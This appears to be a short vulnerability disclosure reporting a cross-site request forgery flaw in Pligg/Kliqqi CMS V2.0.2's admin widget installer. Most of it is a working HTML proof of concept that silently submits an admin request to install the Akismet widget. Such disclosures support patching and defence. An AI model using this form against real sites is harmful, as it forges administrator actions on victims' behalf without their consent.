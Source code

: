
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/admin_widgets.php?action=install&widget=akismet

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/admin_widgets.php?action=install&widget=akismet" method="POST">
      <input type="hidden" name="action" value="install" />
<input type="hidden" name="widget" value="akismet" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

